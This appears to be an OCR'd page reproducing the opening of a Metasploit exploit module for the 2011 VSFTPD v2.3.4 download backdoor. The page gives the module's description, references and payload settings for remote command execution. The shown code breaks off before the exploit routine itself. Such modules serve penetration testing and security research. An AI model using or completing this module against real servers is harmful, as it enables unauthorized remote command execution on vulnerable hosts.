 **Name**
VSFTPD v2.3.4 Backdoor Command Execution

**Description**
This module exploits a malicious backdoor that was added to the VSFTPD download archive. This backdoor was introdcued into the vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 according to the most recent information available. This backdoor was removed on July 3rd 2011.

```rb
##
# $Id: vsftpd_234_backdoor.rb 13099 2011-07-05 05:20:47Z hdm $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
	Rank = ExcellentRanking

	include Msf::Exploit::Remote::Tcp

	def initialize(info = {})
		super(update_info(info,
			'Name'           => 'VSFTPD v2.3.4 Backdoor Command Execution',
			'Description'    => %q{
					This module exploits a malicious backdoor that was added to the	VSFTPD download
					archive. This backdoor was introdcued into the vsftpd-2.3.4.tar.gz archive between
					June 30th 2011 and July 1st 2011 according to the most recent information
					available. This backdoor was removed on July 3rd 2011.
			},
			'Author'         => [ 'hdm', 'mc' ],
			'License'        => MSF_LICENSE,
			'Version'        => '$Revision: 13099 $',
			'References'     =>
				[
					[ 'URL', 'http://pastebin.com/AetT9sS5'],
					[ 'URL', 'http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html' ],
				],
			'Privileged'     => true,
			'Platform'       => [ 'unix' ],
			'Arch'           => ARCH_CMD,
			'Payload'        =>
				{
					'Space'    => 2000,
					'BadChars' => '',
					'DisableNops' => true,
					'Compat'      =>
						{
							'PayloadType'    => 'cmd_interact',
							'ConnectionType' => 'find'
						}
				},
			'Targets'        =>
				[
					[ 'Automatic', { } ],
				],
			'DisclosureDate' => 'Jul 3 2011',
```